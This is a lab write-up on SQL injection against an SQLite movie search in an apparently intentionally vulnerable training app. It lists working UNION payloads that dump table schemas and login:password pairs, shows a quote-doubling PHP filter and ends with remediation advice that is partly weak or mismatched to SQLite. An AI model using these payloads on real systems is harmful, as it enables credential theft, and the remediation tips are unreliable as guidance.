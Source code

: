 # 1. Low

When using this app, first sight is following page. When trying to put data and search, there were 2 parameters: `title=<UserInput>` and `action=search`

![SQLite_L0.png](image/SQLite_L0.png)

Trying search with single quote (`'`) and  the server returned `Error: HY000` which mean **Datatype Mismatch with SQLite Database**. Trying more with evil parameters:

Determining number of column with `order by` statements:
- Payload: `null'order+by+1--` >> Response: **No movies were found!**
- Payload: `null'order+by+7--` >> Response: **Error: HY000** which mean out of range column

Get table name from `sqlite_master`
- Payload: `null'UNION+SELECT+1,name,null,null,null,null+FROM+sqlite_master--`

![SQLite_L1.png](image/SQLite_L1.png)

Selecting table name from `sqlite_master`:
- Payload: `null'UNION+SELECT+1,tbl_name,3,4,5,6+FROM+sqlite_master--`

![SQLite_L2.png](image/SQLite_L2.png)

Get SQL query from `users` table:
-Payload: `null'UNION+SELECT+1,sql,3,4,5,6+FROM+sqlite_master+WHERE+name='users'--`

![SQLite_L3.png](image/SQLite_L3.png)

Exstracting `login` and `password` in `users` table:
-Payload: `null'UNION+SELECT+1,login||":"||password,3,4,5,6+FROM+users--`

![SQLite_L4.png](image/SQLite_L4.png)


---
# 2. Medium
In medium level, the backend using `sqli_check_4()`

```php
function sqli($data){  
    switch($_COOKIE["security_level"])  
    {  
        case "0" :  
            $data = no_check($data);  
            break;  
        case "1" :  
            $data = sqli_check_4($data);  
            break;  
        case "2" :  
            $data = sqli_check_4($data);  
            break;  
        default :  
            $data = no_check($data);  
            break;  
    }  
    return $data;  
}
```

This mean when we closing the statement that it automatically opening for new statement and make it correct.

```php
function sqli_check_4($data){  
    $input = str_replace("'", "''", $data);  
    return $input;  
}
```

---
# 3. Remediation

- Validating User Input and only accept word or number only, example given using regular expression: `\w+` or `[a-zA-Z0-9 .-_]+`
- Using function to filter input: 
	- `$value = mysql_real_escape_string($data);`
	- `$value = addslashes($data);`
- Using [sanitize filter php](https://www.php.net/manual/en/filter.filters.sanitize.php)